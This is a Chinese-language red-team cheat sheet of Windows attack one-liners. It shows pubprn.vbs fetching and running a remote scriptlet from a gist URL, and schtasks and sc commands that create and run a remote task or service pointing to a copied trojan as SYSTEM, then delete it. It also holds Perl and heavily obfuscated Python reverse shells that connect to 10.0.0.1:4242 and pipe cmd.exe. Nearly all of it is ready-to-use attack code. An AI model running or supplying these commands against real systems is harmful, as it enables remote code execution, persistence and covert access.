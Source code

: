 **pubprn.vbs**

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

**conhost**
```bash
conhost calc.exe
```

**schtasks**
```bash
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
/sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
schtasks /F /delete /tn foobar /S host                          # 清除 schtasks
```

**SC**
```bash
sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    # 新建服务,指向拷贝的木马路径
sc \\host start foobar                                          # 启动建立的服务
sc \\host delete foobar                                         # 完事后删除服务
```

---

## Other

**perl**
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
